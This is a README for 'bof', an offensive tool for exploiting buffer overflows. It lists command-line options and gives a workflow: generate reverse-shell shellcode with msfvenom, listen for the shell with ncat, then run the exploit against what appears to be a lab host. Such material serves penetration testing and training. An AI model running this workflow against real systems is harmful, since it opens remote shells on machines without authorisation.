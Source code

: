 # bof

Simple tool to detect and exploit buffer overflows.

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

usage: bof.py [-h] -H HOST -p PORT -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS]

Exploit buffer overflows.

Options:
- -h, --help            show this help message and exit
- -H HOST, --host HOST  Target host
- -p PORT, --port PORT  Target port
- -o OFFSET, --offset OFFSET EIP offset
- -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
- -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
- -s SIZE, --size SIZE  Payload size
- -sf SUFFIX, --suffix SUFFIX  Payload suffix, Ie. USER
- -pf PREFIX, --prefix PREFIX Payload prefix, Ie. \n
- -a ARCH, --arch ARCH  Target architecture. Ie. x86 or amd64
- -O OS, --os OS        Target OS. Ie. windows or linux
- -v, --debug           Show debug information
- -d, --dry             Print would be payload


Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

    msfvenom -p windows/shell_reverse_tcp ... -f python -a x86 > shellcode.py

Listen for shell

    ncat -lvp 4444


Run by passing the return address to overwrite EIP

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'


Run by passing a binary and search for a JPM ESP ROP automatically


    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

